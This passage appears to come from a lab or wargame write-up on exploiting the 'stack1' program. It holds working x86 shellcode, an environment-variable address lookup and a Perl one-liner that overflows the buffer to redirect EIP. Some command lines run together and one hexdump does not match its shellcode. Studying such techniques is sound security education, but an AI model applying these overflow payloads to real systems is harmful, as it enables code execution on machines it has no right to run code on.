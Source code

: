 ```bash
# export WINCODE=$(cat shellcode.bin)
#
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 0a                                 | win!.|
00000026
#
# ./getenv WINCODE
[+] WINCODE: 0xbffff718
#
# perl -e 'printf "A"x88 . "\x18\xf7\xff\xbf"' | ./stack1
buf: bffff4d4 cookie: bffff524
you win!#
```

We successfully redirected EIP to a NOP-less shellcode present within an
environment variable. And it did work! However the output is not exactly
what we had expected. There's no newline at the end. Here is what
hexdump has to say about our exploit:

```bash
# perl -e 'printf "A"x88 . "\x18\xf7\xff\xbf"' | ./stack1 | hexdump -C
00000000  79 6f 75 20 77 69 6e 21  00                       |you win!.|
00000009
```

Although the environment variable has a newline at the end, it is not
echoed back when the shellcode executes. I made a small change to the
original shellcode to include `0x0a` and `0x0d` characters and used it for
testing:

```bash
# perl -e 'print "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x0a\x0d"' >shellcode.bin
#
# export WINCODE=$(cat shellcode.bin)# echo $WINCODE | hexdump -C 00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenv WINCODE[+] WINCODE: 0xbffff716
#
# perl -e 'printf "A"x88 . "\x16\xf7\xff\xbf"' | ./stack1
buf: bffff4d4 cookie: bffff524
you win!
```

This time just the `0x0a` was echoed back and it, as expected, corrects
the exploit output. However, I could not understand this strange
behavior. If you have any ideas please get back. So, we have now
successfully exploited the `stack1` program through a shellcode injected
into an environment variable. Please note that the use of environment
variables is only possible for local exploits and as such it is not much
used in common exploits that you see in the wild. However, as you have
already seen, it is one of the most reliable methods of exploitation.

All these solutions are however not practical since they require
disabling of recent mitigation features. They serve the purpose of
understanding how exploits worked before mitigation features were
introduced.
